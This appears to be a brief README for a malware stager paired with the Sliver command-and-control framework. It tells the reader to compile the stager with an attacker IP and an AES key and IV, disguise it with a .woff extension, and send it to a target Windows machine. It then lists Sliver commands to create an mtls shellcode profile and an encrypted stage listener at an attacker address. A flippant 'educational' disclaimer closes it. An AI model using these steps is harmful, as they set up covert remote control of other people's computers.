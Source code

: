 compile this stager with attacker ip and AES key and iv with extension whatever.woff

the exe generated from this will be send to the target windows machine



----

sliver server steps



start sliver server

sudo systemctl start sliver

create profile => profiles new --mtls 192.168.122.1 --format shellcode <profile name>

create mtls listener  =>  mtls

create stage listener => stage-listener --url http://<attacker ip>:<listener port> --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV

use a different port from the other listener. mtls defaults to port 8888

DISCLAIMER

DONT BE AN ASSHOLE AND USE THIS ON PPL. dis is for educational poipoises

